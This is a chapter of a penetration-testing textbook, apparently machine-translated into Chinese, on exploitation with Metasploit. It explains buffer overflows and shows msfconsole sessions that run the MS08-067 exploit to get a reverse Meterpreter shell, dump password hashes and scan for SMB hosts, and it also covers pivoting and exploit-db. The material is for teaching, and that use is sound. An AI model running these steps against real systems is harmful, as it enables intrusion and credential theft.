




# 5.探索

在渗透测试中，可以这么说，剥削是橡胶遇到道路的地方。这是大多数渗透测试人员眼中的终极奖励。利用是你做渗透测试的“渗透”部分。当然，这是假设您能够找到可以利用的漏洞。仅仅因为你发现了一个漏洞，并不能保证你能够利用它来利用系统。另外，利用漏洞看起来像什么呢？您可以想象漏洞利用的结果会是什么样子。在小说中，它通常被描绘成给你某种形式的计算机接口，最常见的是一个远程桌面，就像普通计算机用户看到的那样。然而，在图形用户界面的现代世界中，桌面访问并不一定意味着您将看到整个图形桌面。如果您碰巧获得了交互式访问，更有可能的是，您将获得某种形式的命令行访问，它允许您在计算机文件系统中移动并运行程序实用程序。这意味着一旦你进入系统，你需要知道如何与系统互动。如果您习惯于主要使用鼠标和 Windows 来控制您正在使用的任何系统，那么是时候学习一些命令行技能了。

然而，利用并不总是为了获得对系统的直接访问。通常，利用漏洞会导致服务甚至整个计算机系统崩溃。这可能是一种有用的拒绝服务攻击，在您利用系统时，这是一种相当常见的结果。导致程序崩溃的错误很常见。能够在那次崩溃中做些有用的事情就更难了。通常，进程(程序的内存实例)崩溃的原因是因为它被要求进入内存中的某个位置，该位置要么不属于该进程，要么实际上不包含可执行代码。或者可能在内存位置有合法的操作码，但是伴随操作码的参数对处理器没有任何意义。这些事情中的任何一个都会导致程序崩溃。然而，仅仅因为你能使一个程序崩溃并不意味着你将自动获得对该程序的控制。利用程序崩溃来让系统执行你的命令需要相当多的技巧和毅力。

幸运的是，我们不必独自工作来找出如何将成功的利用转化为对易受攻击的计算机系统的有效控制。利用他人的成果来开发系统的一种方法是使用 Metasploit。Metasploit 是由 H.D. Moore 开发的一个开发框架，现在归 Rapid7 所有。虽然 Metasploit 是商业软件，但有一个社区版可以免费使用。还有其他利用框架，如 Canvas 和 Core Impact，但 Metasploit 是唯一一个以开源开始并继续提供免费社区版的利用框架。缺省情况下，Metasploit 也安装在 Kali Linux 上，Kali Linux 是为进行渗透测试而设计的易受攻击的 Linux 发行版。所有这些都表明 Metasploit 无疑是最广为人知和使用最广泛的可用开发框架，并且是大多数人的逻辑起点。

当您想要开发自己的漏洞时，您将需要熟悉调试器，它将允许您查看正在运行的程序内部并实时检查内存位置。使用调试器，您还可以通过一次暂停和运行一条指令来控制程序的执行流程，这样您就可以看到行为。不足为奇的是，一些用于此目的的最佳程序是商业的，但是也有非常好的非商业版本的调试器。

在本章的课程中，我们将主要通过使用开发框架来介绍一些开发基础知识。这里有很多内容要介绍，因为重点是让您快速入门，所以我们将很快介绍所有内容。虽然你可以用它来工作，但如果没有丰富的经验，你可能无法完全理解你在做什么。几乎任何人都可以快速到达可以在 Metasploit 中运行某些模块的地方。就像任何其他技能一样，大量的练习可以导致更深的理解和更好的表现。

## 获得控制权

攻击者在攻击系统时并不总是有相同的动机。在某些情况下，他们可能只是想影响程序或系统，使其不再响应用户的合法请求。这种拒绝服务可能导致程序崩溃。如果一个程序崩溃，并且没有一个进程来确保它在失败时重新启动，这个进程有时被称为看门狗进程，那么没有其他用户能够访问该程序提供的任何服务。举个例子，如果你让电子邮件服务器程序崩溃，那么在程序重新启动之前，没有人能够使用这个服务器。对于攻击者来说，这可能是一个完全可以接受的结果。然而，并不是所有的攻击者都会对这个结果感到满意，所以他们可能想利用这个正在运行的程序在系统中获得一个立足点。这意味着试图让程序运行攻击者提供的可执行代码。如果您阅读漏洞报告，这通常被称为任意代码。

攻击者有几种不同的方法来控制程序。如果你还记得上一章关于堆栈的讨论，你可能还记得放在堆栈上的信息之一是返回地址。返回地址是内存中的一个位置，当一个函数完成运行时，程序执行要返回到这个位置。返回地址被放回到指令指针中，指令指针是一个称为寄存器的专用内存块，它存储了处理器预期从中提取下一条可执行指令的内存位置。控制程序的一种方法是将可执行指令作为输入发送，然后通过操纵堆栈上的返回地址来指向它们，从而让程序运行这些指令。这不是一个微不足道的任务，解释它远远超出了本书的范围。然而，当我们以后开始利用预先构建的漏洞时，了解该漏洞是如何工作的是很有用的。

这个特殊的过程是通过使用一种称为缓冲区溢出的技术来完成的。图 [5-1](#Fig1) 显示了一个堆栈框架的可视化表示，它是内存的一部分，包括局部变量和其他与函数调用相关的信息。在内存中一个完全独立的部分是程序第一次运行时操作系统加载的可执行代码。你可以在那里看到加载指令指针。在缓冲区溢出的情况下，攻击者会向程序发送大量数据。对于分配给变量用来保存数据的空间量来说，这些数据太多了。结果，数据会溢出到下一个内存位置，一直到返回地址，甚至更远。当操作系统寻找返回地址时，它会得到攻击者提供的可执行代码的起始地址。



图 5-1。

Stack and text segments

理论上，这听起来很容易。然而，为了迫使操作系统跳转到新代码所在的堆栈中的地址，需要做大量的工作。攻击者代码的位置是漏洞利用成功的必要条件。理想情况下，每次运行程序时地址都是相同的，在某些情况下确实如此。一些程序实际上是在它们在内存中的首选位置已经确定的情况下编译的。因为操作系统使用虚拟内存，这意味着程序知道的地址不同于物理地址，所以程序可以相信任何它想知道的地址。在从内存中检索数据之前，操作系统无论如何都要进行转换以获得真实地址。为什么不让程序预先指定它想要的地址呢？它简化了从源代码到可执行代码的程序编译，也简化了操作系统提供一组地址的工作。这种方法的问题是，它允许攻击者利用已知的信息来攻击程序。防止缓冲区溢出的一种方法是使用一种称为地址空间布局随机化(ASLR)的技术。这种技术在程序每次运行时为其提供一组不同的地址，因此攻击者无法提前保证他们需要跳转到哪个地址。如果真的能做到的话，尝试在飞行中确定它要困难得多。ASLR 最终成为抵御缓冲区溢出攻击的一种相当有效的方法。

然而，使用 ASLR 并不意味着攻击者运气不好。他们还可以使用其他技术。其中之一是利用大多数程序使用共享库的事实。共享库是可供多个程序使用的函数集合。这些共享库通常位于内存中的已知地址，或者至少位于可以确定的地址。攻击者不是试图覆盖缓冲区，而是利用这些共享库的地址是已知的这一事实，跳转到内存中的这些位置，而不是缓冲区溢出的位置。这仍然需要攻击者发送太多的数据使缓冲区溢出，以便到达返回地址并覆盖它。攻击者不会用攻击者提供的代码覆盖堆栈中的地址，而是将程序的执行发送到一个共享库中，让库函数完成适当的工作。通常，攻击者可能会利用`system()`函数，该函数将命令传递给操作系统。这将允许攻击者完全绕过程序，在操作系统本身中执行命令。这并不意味着我们无法抵御这些攻击。操作系统可以使用一些技术来抵御这类攻击。

Windows 系统使用一种叫做结构化异常处理的东西来处理异常情况，比如那些可能导致程序崩溃的情况。攻击者可能会利用结构化异常处理程序来执行他们自己的代码。他们可以这样做，因为结构化异常处理程序的一部分是指向一段代码的指针，这段代码可以对错误条件做一些事情，比如显示一个对话框来通知用户发生了不好的事情。因为有一段可执行代码在起作用，这对于攻击者来说是一个公平的游戏。攻击者触发错误，然后让错误处理程序跳转到为执行攻击者的命令而创建的代码块，而不是程序员编写程序时想要发生的事情。

可用的利用框架将提供不同的利用方式，可能利用这些攻击之一。然而，当利用完成时，攻击者想要进入系统。这通常是通过一种叫做有效载荷的东西来完成的。漏洞利用运行并设置程序做攻击者(我们，在我们使用漏洞利用框架的情况下)想要的事情。这可能是将命令行(也称为 shell)发送回攻击者(我们)。我们将看看这是如何工作的，但首先我们需要确保我们有一个可以利用的漏洞。

## 查找漏洞

漏洞扫描器根据它们所拥有的信息，给出它们对漏洞的最佳猜测。这可能是他们从应用程序获得的横幅，其中包括版本号或只是应用程序的名称。这并不总是足以确定是否真的存在漏洞。这就是为什么我们跟进利用框架，看看我们是否真的可以利用漏洞。如果漏洞扫描程序发布了一个发现，但进一步的测试显示漏洞并不真正存在，这是一个误报。扫描仪错误地显示存在漏洞。您也可能会得到假阴性，这是真正存在的问题，但没有被扫描仪发现。漏洞扫描器实际上只是测试的起点，而不是旅程的终点。然而，这是一个很好的起点，因为结果将有助于我们找到一些需要更详细研究的道路。

漏洞扫描器还需要检查的一个方面是它发现的问题的严重性或关键性。例如，如果您向扫描程序提供凭据，并且它报告了一个需要本地登录才能利用的漏洞，则您可以确定它是一个低风险项目，因为您使用防火墙来限制对远程登录功能的访问，并且您还使用双因素身份验证。了解这些额外措施的人可以将这些额外措施纳入严重性评级。漏洞扫描器不具备这方面的知识。它只知道创建定义的人对临界性说了些什么。当您报告您的发现时，不要总是将漏洞扫描器所说的视为最佳答案。

虽然 Nessus 是一个非常好的扫描器，但如果我们要使用 Metasploit，Nexpose 实际上在查找漏洞方面有优势，我们将会这样做。因此，我们将从一个 Nexpose 扫描开始，因为我们会仔细查找已报告的漏洞，以测试其可利用性。

Nexpose 有几种不同的方式来查看你的发现。第一种方法是只查看漏洞列表。当您查看扫描时，您将看到 Nexpose 在您的目标上发现的所有漏洞的列表。如果您特别练习扫描和利用，高度易受攻击的系统会成为很好的实验室系统。当涉及到使用 Metasploit 时尤其如此，因为您将有保证的钱投给目标。图 [5-2](#Fig2) 显示了 Nexpose 在 Windows 95 系统中发现的漏洞的部分列表，其中有大量漏洞已经成熟，可以利用。您将很快看到如何利用它们。


图 5-2。

Nexpose vulnerabilities list

在图中，有一个 Metasploit 图标列表。这些图标表示 Metasploit 有针对该特定漏洞的漏洞利用。使用这些图标，我们可以很快切入主题，如果我们正在寻找漏洞，我们可以很快做一些事情。查看这 10 个漏洞的列表，我们发现 Metasploit 利用了其中的 4 个漏洞。这是一个相当不错的百分比，但请记住，这是一个 Windows 95 系统，预计会有漏洞。这不可能是我们使用 Metasploit 可以做的有趣事情的全部列表。Nexpose 提供了一个“漏洞”视图，只关注容易被利用的漏洞。从漏洞利用的角度来看 Windows 95 系统的相同 Nexpose 扫描，我们得到了图 [5-3](#Fig3) 中的列表。如果您查看这个列表，您所看到的都是带有相应 Metasploit 模块的条目。



图 5-3。

Nexpose exploits list

还有其他定位漏洞的方法，特别是如果您使用的扫描器与 Metasploit 没有关系。Nessus 或其他扫描器将提供一个漏洞列表，然后您将需要做一些研究，以确定您可以做什么。仅仅因为没有针对特定漏洞的 Metasploit 模块，并不意味着它不是真实的，或者没有利用该漏洞的方法。在测试时，永远不要假设没有结果就意味着没有弱点可利用。有很多因素可能会导致很少的结果，包括您必须执行测试的时间。当您在 Metasploit 中寻找漏洞时也是如此。Metasploit 中没有漏洞利用模块的原因有很多。这并不意味着该漏洞不能被利用。这只是意味着 Rapid7 的开发人员和社区贡献者还没有创建一个漏洞利用模块。

## 使用 Metasploit

Metasploit 是一个非常强大的工具，尽管它通常被认为是一种利用其他系统的方法。实际上，它有很多用途，如果你知道如何写代码，它也是可扩展的。使用 Metasploit 框架，您可以非常容易地编写一个脚本来执行 Metasploit 默认情况下不支持的特定操作。要创建 Metasploit 模块，您需要编写模块并将文件放入 Metasploit 树中的适当目录。一旦在这个位置放置了一个模块，Metasploit 就会找到它，然后您就可以在 Metasploit 中使用这个模块了。在我们进入如何使用 Metasploit 的细节之前，我们应该谈论它包含的不同接口。它们是命令行控制台、脚本命令行界面和图形 Web 界面。

第一个接口，也是你在这里最常看到的一个，叫做`msfconsole`。msfconsole 是一个命令行程序，提供交互式控制台界面。一旦进入 msfconsole，您就可以搜索模块、设置参数和利用漏洞。您将在这里进行一些输入，尽管它确实使用 tab 键完成命令，就像大多数命令行 shell 界面一样。这是在一个非常可靠和高效的界面中完全控制 Metasploit 的最佳方式。与 msfconsole 相关的是 msfcli。这是一个可以用来编写与 Metasploit 交互的脚本的程序。如果您有一个正在编写的程序，并且希望触发 Metasploit 做一些事情，可以使用 msfcli。在 2015 年，msfcli 被弃用，但如果您周围有一个较旧的安装，您可能仍然会遇到它，并且通过将`–x`传递到 msfconsole 中，该功能仍然存在。

Web 界面可能会吸引很多人，特别是如果你从 Rapid7 下载了 Metasploit 的完整版本。完整的 community edition 安装包将安装 msfconsole 以及一个 Web 界面。如果已经安装了 Nexpose，可以将两者链接起来，这样就可以直接从 Nexpose 有效地驱动 Metasploit。通过告诉 Nexpose 安装有关 Metasploit 的信息，当 Nexpose 发现可被 Metasploit 利用的漏洞时，它将生成一个链接，该链接将从 Nexpose 内部自动启动针对目标的利用。从目标系统获得的任何 shell 都将出现在您的 Web 浏览器中，您可以像使用命令行一样与它进行交互。

Kali 是一个流行的 Linux 发行版，专门为安全相关的活动而创建，包括渗透测试。Kali 包括大量对渗透测试有用的工具。这包括 Metasploit 的一个版本，尽管这个版本没有 Web 界面。如果你想要一个包含所有入门工具的操作系统，你可以使用 Kali。Kali 不包含 Web 接口的事实是这里使用 Metasploit 命令行接口的原因之一。

我们将看一下 Metasploit 的命令行版本，这样您可以清楚地看到发生了什么。你可以通过网络界面做同样的事情，而不需要打字。在我们的例子中，我们将使用 Metasploit 控制台来搜索通过扫描识别的漏洞之一。首先，我们需要加载 msfconsole。这是在 Linux 系统上完成的，但是您也可以在 Windows 系统上做同样的事情，而且只需一点努力，您就可以让它在 Mac OS X 系统上也能工作，因为 Metasploit 是用 Ruby 编写的。您可以看到 msfconsole 正在启动，然后您开始搜索 MS08-067 漏洞。如果您发现系统仍然易受其攻击，这恰好是一种非常可靠的利用方法，并且考虑到多少年来这是一种非常流行的利用系统的方法，因为系统没有被修补，您完全有可能仍然在系统上发现这种方法。即使您不知道，我们也要看看这个特殊的漏洞，以此来演示 Metasploit 是如何工作的。

```
root@senatorbedfellow:∼# msfconsole

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||

Payload caught by AV? Fly under the radar with Dynamic Payloads in
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.15-dev                         ]
+ -- --=[ 1524 exploits - 887 auxiliary - 260 post        ]
+ -- --=[ 436 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > search ms08

```

Metasploit 将模块存储在具有特定结构的目录树中。有一个 Postgresql 数据库支持 Metasploit 来存储有关主机、漏洞和其他资产的信息。Metasploit 还将保存所有模块的索引，以便更快地找到它们。一旦我们知道模块在哪里，我们就需要加载它。我们通过告诉 Metasploit 使用该模块来做到这一点。您可以在下面的代码中看到整个事务，您可以看到我们选择了模块的完整路径，因为它存在于 Metasploit 包含的目录树中。一旦我们表明我们将使用`exploit/windows/smb/ ms08_067_netapi`模块，我们需要设置一些选项以便我们可以使用它。不同的模块可能有不同的选项集。这个特定模块的选项非常有限。我们需要设置远程主机和远程端口。远程端口将是 445，因为这是通用 Internet 文件系统(CIFS)监听的端口。远程主机将成为我们的目标。您可能会注意到该模块有一个熟悉的名称。它以 Microsoft 公告命名，因为它利用了该公告中说明的漏洞。

```
msf > use exploit/windows/smb/ms08_067_netapi

msf exploit(ms08_067_netapi) > set RHOST 172.30.42.18
RHOST => 172.30.42.18

msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    172.30.42.18     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

msf exploit(ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 172.30.42.20:4444

[*] Automatically detecting the target...

[*] Fingerprint: Windows XP - Service Pack 2 - lang:English

[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)

[*] Attempting to trigger the vulnerability...

[*] Sending stage (957487 bytes) to 172.30.42.18

[*] Meterpreter session 1 opened (172.30.42.20:4444 -> 172.30.42.18:1048) at 2016-05-28 13:38:09 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

通用 Internet 文件系统(CIFS)服务是 Windows 通过网络共享文件的方式。这实质上是下一代服务器消息块(SMB)协议。如果您有一个共享文件的 Windows 系统`—`，并且直到最近，大多数 Windows 安装都默认启用文件共享`—`，您可以在这些 Windows 系统上监听该端口。

设置好变量后，我们告诉 Metasploit 利用漏洞，Metasploit 将漏洞发送到目标，触发操作系统运行 Metasploit 也发送的有效负载。本例中的有效负载是 Meterpreter，它是一个小型命令解释器，为您提供了一种以完全中立的方式与系统进行交互的方法。这意味着您不必了解 Windows 命令或 Linux 命令。你所需要知道的就是如何与 Meterpreter 交互，以便从被开发的系统中得到你所需要的东西。Metasploit 附带了大量的有效负载，您可以在不同的情况下使用。如果您查看漏洞利用运行时的输出，可以看到 Metasploit 系统(172.30.42.20)正在向目标(172.30.42.18)发送网络连接。如果有防火墙挡路，这种可能性可能并不总是存在。您可能需要让被利用的系统向您发送一个网络连接。这被称为反向连接，Metasploit 具有这方面的有效负载。以下是所有可用有效载荷的一小部分示例:

```
   windows/metsvc_bind_tcp
normal  Windows Meterpreter Service, Bind TCP
   windows/metsvc_reverse_tcp
normal  Windows Meterpreter Service, Reverse TCP Inline
   windows/patchupdllinject/bind_hidden_ipknock_tcp
normal  Windows Inject DLL, Hidden Bind Ipknock TCP Stager
   windows/patchupdllinject/bind_hidden_tcp
normal  Windows Inject DLL, Hidden Bind TCP Stager
   windows/patchupdllinject/bind_ipv6_tcp
normal  Windows Inject DLL, Bind IPv6 TCP Stager (Windows x86)
   windows/patchupdllinject/bind_ipv6_tcp_uuid
normal  Windows Inject DLL, Bind IPv6 TCP Stager with UUID Support (Windows x86)
   windows/patchupdllinject/bind_nonx_tcp
normal  Windows Inject DLL, Bind TCP Stager (No NX or Win7)
   windows/patchupdllinject/bind_tcp
normal  Windows Inject DLL, Bind TCP Stager (Windows x86)

```

一旦您入侵了系统，您就可以使用 Meterpreter 从目标收集信息，包括所有的密码散列，如下所示。在像 Windows 这样有图形化桌面的系统上，你可以使用 Meterpreter 来获取桌面的屏幕截图。这将证明你设法进入了系统，并且你可以在以后的报告中写出来。Meterpreter 是专门为渗透测试人员创建的高功能命令解释器，它提供了您在操作系统的内置命令解释器中找不到的功能。例如，Windows 不允许您像这样轻松地转储密码数据库的内容

```
meterpreter > hashdump
Administrator:500:ed174b89559f98ab93e28745b8bf4ba6:5f7277b8635625ad2d2d551867124dbd:::
ASPNET:1003:5b8cce8defe0d65545aefda15894afa0:227510be54d4e5285f3537a22e855dfc:::
Guest:501:aad3b435b51404ea1ad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:7e86e0590641f80063c81f86ea9efa9c:ef449e873959d4b1536660525657047d:::
SUPPORT_388945a0:1002:aad3b435b51404eefad3b435b51404ee:2e54afff1eaa6b62fc0649b715104187:::

```

一旦您控制了一个系统，您就可以使用它来进一步进入目标网络。您可能会通过使用受威胁的系统在网络中横向移动，以获得对同一网络中其他系统的可信访问。您还可以将受损系统用作路由器，将流量从您的系统传送到目标系统所连接的其他网络中。这就是所谓的`pivoting`。

当为了向用户提供服务而部署的生产系统被放到网络上时，它们可能被部署有多个网络接口。这使得管理人员可以通过一个受保护的网络接口访问系统，该网络接口独立于用于大量未洗手人群使用的主要服务的接口和 IP 地址。拥有多个接口的另一个原因是，当存在受保护的数据时，例如在数据库中，Web 或应用程序服务器可以查询这些数据，而无需将服务器暴露给与互联网没有任何连接的网络。数据库服务器只能存在于远程无法访问的隔离网络上。只有系统管理员可以从后端管理界面访问系统，而应用程序或 Web 服务器通过隔离的网络访问系统。旋转使攻击者能够远程访问数据库服务器，因为受损的系统可用于将流量路由到该隔离网络。

旋转允许您使用 Metasploit 访问一个系统，设置一个旋转点，然后扫描受损系统背后的网络。你可以在图 [5-4](#Fig4) 中看到它的直观表示。作为攻击者，您位于图表的左侧。您首先通过网络，很可能是互联网，然后通过防火墙到达最初被入侵的目标。从这个被破坏的目标或立足点，您能够通过被破坏的系统到达内部网络上的数据库服务器。


图 5-4。

Pivot diagram

当然，这并不意味着你会一直有 Meterpreter 可以依靠。您可能并不总是能够使用能够为您提供 Meterpreter shell 的有效负载。有时，您将不得不依赖您所连接的操作系统中的常规命令解释器或 shell。一些漏洞利用模块无法利用 Meterpreter 有效载荷，因此您可能会受到限制。您应该理解使用 Windows 命令解释器和 Linux bash shell 可以做什么。使用这些接口有些事情很难做到，包括旋转、转储密码散列和控制系统资源。一旦您控制了系统，您可能需要安装其他软件来获得对该系统或其他系统的额外控制。

一旦您连接到所需的系统，您就有了该系统易受攻击以及其易受攻击程度的证据。然而，这并不意味着你的工作已经完成。记录您所做的事情，但是根据您的工作范围，您可能需要收集其他信息，如密码和系统名称。您可能不仅需要调查系统密码数据库，还需要调查配置文件。如果您有一个连接到应用程序服务器的 Web 服务器，可能有一个配置文件为该应用程序服务器提供凭证。数据库服务器也是如此。如果你能用一个服务器在一个更重要的服务器上立足，那就意义重大了。一些组织可能更希望您停留在第一个入口点，而其他组织可能希望您尽可能地走远。

无论您是在内部工作还是作为顾问/承包商，在执行渗透测试时，沟通都是至关重要的。你需要有一个联系点，这样你可以让他们知道你在做什么，以防他们需要通知某人潜在的中断，如果这是他们关心的事情。作为渗透测试人员，您可能会采取许多可能导致系统中断的措施，包括利用漏洞。其中一些漏洞可能会导致服务崩溃，而不允许您控制系统。留给你的可能只是一个失败的漏洞，一个不再运行的程序，以及一个不再对用户可用的服务。定期和持续的沟通也将为你提供一个人，如果你需要澄清，以了解你可以或应该走多远。

## Metasploit 辅助模块

Metasploit 在很多方面都很棒。除了剥削，还可以用来侦察。这是通过使用辅助模块来完成的。可以从 Metasploit 内部开始进行 nmap 扫描。可以使用 db_nmap 从 Metasploit 内部调用 nmap。您可以使用与在 Metasploit 外部使用 nmap 时相同的参数。所有的结果都存储在数据库中，以便以后参考。除了 Metasploit 附带的 exploit 模块之外，还有许多辅助模块。这些模块中的一些可以用于在目标网络中搜索特定服务的实例。例如，我们可以在目标网络上搜索所有为 Windows 共享服务打开了 CIFS 端口的系统。所使用的模块 smb_version 不仅会提供使用服务器消息块协议(smb，CIFS 的前身)的系统列表，还会提供所使用的版本。看这里:

```
msf > use auxiliary/scanner/smb/smb_version

msf auxiliary(smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_version) > set RHOSTS 172.30.42.0/24
RHOSTS => 172.30.42.0/24

msf auxiliary(smb_version) > run

```

您可能会注意到 RHOSTS 变量的使用。这不同于先前用于 MS08-067 漏洞利用的 RHOST 变量。这个辅助模块使用这个变量而不是 RHOST 变量的原因是，我们正在扫描多个主机，因此使用变量名来反映目标`—`多个主机而不是单个主机的复数性质是有意义的。这种情况下的目标是我的家乡网络，用无类域间路由(CIDR)符号表示:172.30.42.0/24。/24 表示我们使用 24 位作为子网掩码，只留下最后一个二进制八位数作为目标系统的 IP 地址。这意味着我们的扫描目标是 172.30.42.0-255。一旦设置了目标，运行该模块将开始扫描。当它运行时，它会显示找到的系统。您可以在这里看到这些系统的列表:

```
msf auxiliary(smb_version) > run

[*] 172.30.42.9:445 could not be identified:  ()

[*] 172.30.42.12:445 could not be identified:  ()

[*] 172.30.42.15:445 could not be identified:  ()

[*] 172.30.42.18:445 is running Windows XP SP2 (language:English) (name:WUBBLE-C765F2) (domain:WORKGROUP)

[*] 172.30.42.23:445 could not be identified:  ()

[*] Scanned  26 of 256 hosts (10% complete)

```

在没有系统的情况下，Metasploit 会提供进度更新，指示扫描进行到什么程度，因为扫描器会按照提供的地址顺序工作。寻找 CIFS/中小型企业系统只是 Metasploit 能够进行的大量扫描之一。Metasploit 提供了辅助模块，用于扫描、捕获身份验证凭证、收集信息以及执行不一定与利用漏洞相关的不同类型的攻击。

Metasploit 被设计成可扩展的。它是用 Ruby 编写的，你可以很容易地添加模块。毕竟，Metasploit 是一个框架，因此有很多脚手架，所以您可以专注于您希望您的模块完成的具体细节。您可以选择添加辅助模块，如扫描器或测试服务器，或者您可以开发漏洞，甚至将用另一种语言编写的漏洞作为概念证明，并将它们转换为 Metasploit 模块。

## 排除故障

随着您开始更深入地利用漏洞，您将真正需要熟悉调试器/反汇编器。一个经常被需要的专业人士使用的调试器/反汇编程序是 IDA Pro，尽管它非常昂贵。幸运的是，还有其他选择。其中之一是免疫调试器，可以从提供漏洞框架画布的同一个人那里获得。Immunity Debugger 运行在 Windows 系统上，并具有能够运行 Python 脚本的不寻常的能力，这可能有助于自动化一些调试任务或以特定方式与被调试的程序进行交互。开发免疫调试器时考虑了利用漏洞的想法，因此它包含了专门针对研究人员和渗透测试人员的功能，这些人员希望了解如何利用已发现的漏洞。

即使您自己没有开发漏洞，能够使用调试器也是一项重要的技能。使用调试器，您可以逐句通过代码并观察程序运行时内存的变化。使用调试器，您还可以看到程序崩溃的确切位置。如果你只有可执行程序，你就看不到源代码。你看到的只是可执行代码，在汇编语言中显示为操作。汇编语言中使用的助记符是处理器各个操作码的简写。它们比操作码更容易阅读，但比源代码更难阅读。

另一个非常流行并且免费提供的调试器是 OllyDbg。当前版本只是一个 32 位应用程序，尽管开发人员正在开发一个 64 位版本，您可以尝试一下。在图 [5-5](#Fig5) 中，您可以看到 OllyDbg 应用程序的一部分，该应用程序对与之捆绑在一起的测试应用程序开放。在左侧，您可以看到反汇编的代码，在右侧，您可以看到所有的寄存器。OllyDbg 加载应用程序并指向入口点，入口点是程序的起点。您可以从 OllyDbg 内部启动程序，并让它运行，直到它自己中断，或者您可以在反汇编代码内部设置一个断点。这意味着调试器将在您设置断点的地方停止执行。如果你想知道一个程序是如何运行的，或者你想知道一个特定位置的内存值，这是很有用的。一旦程序停止，您就可以操纵程序的执行，一次运行一个操作，或者跳过函数调用。



图 5-5。

OllyDbg window

右边是所有的寄存器值。寄存器是设置指令指针的地方；寄存器还包括处理器处理的立即值。您可以在逐步完成程序的过程中观察它们的变化。OllyDbg 的底部，如图 [5-6](#Fig6) 所示的一部分，是程序内存和堆栈的转储。程序内存转储显示转储中显示的内存地址以及每个内存位置的十六进制值。屏幕截图的右边是内存位置的 ASCII 值。



图 5-6。

Memory dump from OllyDbg

调试器还将为您提供堆栈的表示。由于堆栈是返回地址所在的位置，并且一些漏洞利用通过覆盖返回地址来工作，所以在调试器中通过程序运行漏洞利用将允许您看到返回地址被覆盖。调试器还将为您提供内存中存储不同组件的位置。这在地址从一次运行到另一次运行发生变化的情况下非常有用。请记住，由于现代操作系统使用虚拟内存，您看到的地址是程序知道的地址，而不是操作系统知道的真实地址。使用调试器来观察程序的执行将有助于您更好地理解程序执行过程中发生的事情。理解程序执行将有助于您更好地理解不同的漏洞利用是如何工作的。

## 利用数据库

Metasploit 并不是获取漏洞的唯一途径。世界上有很多可以利用漏洞的仓库。这些可能是概念验证代码，只是为了证明漏洞可以被利用，也可能是全面的利用，让您通过控制台远程控制目标系统，就像 Metasploit 所做的那样。你可能不得不去相当深的水域钓鱼，以获得一些最好的利用，这样做，你可以把你自己的系统置于危险之中。如果你从一个不知名的作者那里获取代码，你需要重新考虑你有多信任你正在看的代码的来源。幸运的是，您可以从更可信的来源获得一些代码。合法且相对可信的网站维护着这些信息的存储库，这种情况曾经随处可见。PacketStorm、RootShell 和 Church of the Swimming Elephant 都在某种程度上维护了一些代码库。如今，获取漏洞信息的最佳地点之一是`exploit-db.com`。

虽然在进行任何渗透测试时，无论是针对您自己的系统还是属于客户的系统，您都需要小心，但当您使用来自这些网站的任何东西时，尤其如此。说到漏洞利用框架，Rapid7 或 Immunity 提供的任何东西都经过了测试。如果您从 exploit-db 这样的网站下载源代码，您通常会使用概念验证代码或类似的东西。它还没有经过严格的测试，因为它不是一个值得生产的程序。运行这些程序可能是危险的，所以通常最好首先在您自己的系统上单独使用它们。这里提供的站点不是您可以获得漏洞利用代码的唯一站点，但它们可能是最值得信赖的。这些网站的一个优点是，你通常下载源代码，如果你理解它，你就可以阅读它，从而知道程序在做什么。在某种程度上，这是为了确保你不会做一些对你自己的系统有负面影响的事情。如果你正在下载已经编译好的程序进行测试，要特别小心。除非你通过测试运行它们几次，否则你不能确定程序中没有嵌入恶意软件。

当您访问`exploit-db.com`网站时，您会看到最近发布的漏洞列表。您可以在图 [5-7](#Fig7) 中看到本文撰写时的远程攻击列表。这里的攻击已经公开，以帮助增加对安全问题的理解。它们也被公之于众，希望任何人都可以免费获得的利用将鼓励公司保持其硬件和软件的更新。其中一些漏洞是针对硬件设备设计的。在图 [5-7](#Fig7) 所示的列表中，有一台施耐德电气设备和一台思科设备被列为存在漏洞。据推测，这些设备运行易受攻击的固件，因此它显示为一个硬件平台，而不像那些列出 Linux 或 Windows 等操作系统或 PHP 等语言和 Web 应用程序平台的漏洞。


图 5-7。

Exploit-db.com

此处显示的是远程攻击的列表，这意味着它们可以通过网络执行。Exploit-DB 还包括 Web 应用程序漏洞以及本地、权限提升漏洞和一些其他类别的列表。这是一个相当全面的收集。甚至 Rapid7 的人也为这个公共集合做出了贡献，正如你可以看到的，在图 [5-7](#Fig7) 所示的列表中，metasploit 作为作者出现了三个漏洞。如果您稍微挖掘一下，您可能会找到其他具有漏洞数据库的位置。如果你愿意在 Tor 网站上四处挖掘，这一点尤其正确。Tor 是洋葱路由器，它是一个网络中的网络，流量被加密并在对等体之间传递，以便以完全匿名的方式到达其最终目的地。这种匿名性导致一些人使用它进行非法活动，这就是为什么小心使用 Tor 很重要。考虑到 exploit-db.com 的可用容量，这是一个很好的起点，特别是如果您希望搜索针对您已发现的目标的相对知名的漏洞，或者如果您只想了解漏洞利用的内容。

## 社会工程师的工具包

社会工程是让某人做他们不应该做的事情的行为。执行社会工程的人可能会打电话给目标公司的人，要求他们提供密码，声称是邮件管理员组的人，希望执行密码重置。如今，社交工程通常是通过发送带有附件或链接的电子邮件来实现的，希望有人打开附件或点击链接。这可能导致攻击者控制他们的桌面。

